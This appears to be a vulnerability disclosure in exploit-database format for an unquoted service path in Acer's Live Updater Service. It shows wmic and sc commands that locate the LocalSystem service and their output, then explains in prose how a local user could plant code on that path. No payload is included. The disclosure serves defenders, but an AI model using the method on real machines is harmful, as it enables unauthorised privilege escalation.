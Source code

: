 EXP
---

    # Exploit Title: Acer Updater Service 1.2.3500.0 - 'UpdaterService.exe'  Unquoted Service Path
    # Discovery by: Emmanuel Lujan
    # Discovery Date: 2020-11-26
    # Vendor Homepage: https://www.acer.com/ac/en/US/content/home
    # Tested Version: 1.2.3500.0
    # Vulnerability Type: Unquoted Service Path
    # Tested on OS: Windows 7 Home Premium x64

    # Step to discover Unquoted Service Path:

    C:\>wmic service get name, pathname, displayname, startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

    Live Updater Service                                                    Live Upd
    ater Service                          C:\Program Files\Acer\Acer Updater\Updater
    Service.exe                                               Auto

    # Service info:

    C:\>sc qc "Live Updater Service"
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: Live updater Service
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\Program Files\Acer\Acer Updater\UpdaterService.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Live Updater Service
            DEPENDENCIES       :
            SERVICE_START_NAME : LocalSystem

    #Exploit:

    A successful attempt would require the local user to be able to insert their code in the system root path undetected by the OS or other
     security applications where it could potentially be executed during application startup or reboot. If successful, the local user's
    code would execute with the elevated privileges of the application.